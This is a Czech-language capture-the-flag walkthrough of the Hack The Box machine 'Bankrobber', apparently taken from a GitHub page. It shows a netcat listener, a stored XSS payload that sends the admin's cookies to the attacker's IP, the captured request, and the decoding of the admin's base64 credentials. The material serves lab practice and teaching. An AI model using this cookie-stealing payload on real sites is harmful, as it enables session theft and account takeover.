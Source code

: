 ### Prohlídka webové aplikace
`http://10.10.10.154`
- Registrovat
- Zkontrolovat cookies
```
document.cookie
"id=3; username=YWFh; password=YWFh"
```
- Jméno a heslo je uloženo v cookies v base64
- Žádosti o transfer e-coinu schvaluje správce

### Zneužití XSS zranitelnosti ve formuláři pro transfer e-coinu
`nc -lvp 8000`
Odeslání formuláře s následujícím komentářem (IP.AD.RE.SA nahradit vlastní IP) a počkat
`<img src="not-found-img.jpg" onerror=this.src='http://IP.AD.RE.SA:8000/?cookie='+document.cookie>`

```
listening on [any] 8000 ...
connect to [10.10.14.11] from Bankrobber.htb [10.10.10.154] 49811
GET /?cookie=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: nl-NL,en,*

```
### Dekódování přihlašovacích údajů správce
Uživatelské jméno:
```
input="YWRtaW4%3D";printf '%b' "${input//%/\\x}" | base64 -d
admin
```
Heslo:
```
input="SG9wZWxlc3Nyb21hbnRpYw%3D%3D";printf '%b' "${input//%/\\x}" | base64 -d
Hopelessromantic
```

### Prohlídka webové aplikace z pohledu správce
- Schvalování transakcí
- Vyhledávání uživatelů (http://10.10.10.154/admin/search.php)
- Zobrazení obsahu adresáře (spustitelné jen z localhost) (http://10.10.10.154/admin/backdoorchecker.php)
- http://10.10.10.154/notes.txt
```
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```
